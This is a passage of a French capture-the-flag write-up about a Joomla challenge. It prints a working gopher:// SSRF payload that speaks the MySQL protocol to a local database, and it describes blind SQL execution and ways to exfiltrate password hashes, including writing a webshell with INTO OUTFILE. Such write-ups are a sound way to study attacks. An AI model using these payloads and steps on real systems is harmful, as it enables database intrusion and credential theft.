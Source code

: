```plain
Give MySQL username: goblin
Give query to execute: show databases;

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%10%00%00%00%03%73%68%6f%77%20%64%61%74%61%62%61%73%65%73%3b%01%00%00%00%01

-----------Made-by-SpyD3r-----------
```

J'ai copié/collé cette URL dans le formulaire mais n'ai rien eu en retour. J'ai donc fait tout le cheminement en aveugle mais après résolution et avoir jeté un œil à d'autres writeups il semblerait que le script est en fait capricieux et il peut être possible d'obtenir l'output après quelques tentatives. Je me suis tout de même bien amusé en suivant ce chemin là.  

Ainsi je n'avais pas d'output pour une requête aussi simple que *select \* from joomla.joomla\_users;* mais j'obtenais bien une temporisation avec *select sleep(10) from joomla.joomla\_users;* donc l'exécution du SQL est effective !  

Il y avait dès lors deux, non, trois scénarios d'exploitation :  

* utilisation de la technique time-based : j'utilise la fonction *IF()* de MySQL avec *sleep()* pour par exemple extraire le password hashé de l'administrateur. Ça nécessite par contre beaucoup de temps de développement et d'exécution :(
* utilisation de INTO OUTFILE pour écrire directement un webshell dans un des paths du Joomla. Malheureusement le MySQL doit être récent donc ce scénario est assez improbable (un dossier restreint est défini par défaut) sans compter que l'utilisateur de la DB n'est pas root
* modification d'une entrée existante dans la DB du Joomla comme vecteur d'exfiltration des données (par exemple le titre du site Internet) : une requête du style *update config set title = (select password from users)* devrait faire l'affaire

Après quelques essais le OUTFILE ne s'avère pas exploitable. Let's go pour la modification d'une entrée de la DB.  

J'ai trouvé [cette documentation de Joomla](https://docs.joomla.org/Tables) qui décrit les différentes tables de la DB.  

Malheureusement le titre du site semble définit uniquement dans la config PHP. J'ai tenté quelques modifications sur la table liée au composant *com\_newsfeeds* sans plus de résultats.  

Il est temps de faire tourner un Docker MySQL et un Docker Joomla et trouver un enregistrement intéressant.  

J'ai trouvé [cet article](https://dev.to/pierangelo1982/joomla-mysql-phpmyadmin-in-docker-19pc) qui indique comment manier les deux :  

```bash
docker run --name test-mysql -v /tmp/mysql:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=12345678 -d mysql
docker run --name test-joomla --link test-mysql:db -e JOOMLA_DB_HOST=db:3306 -e JOOMLA_DB_USER=root -e JOOMLA_DB_PASSWORD=12345678 -v /tmp/joomla:/var/www/html -p 80:80 -d joomla
```
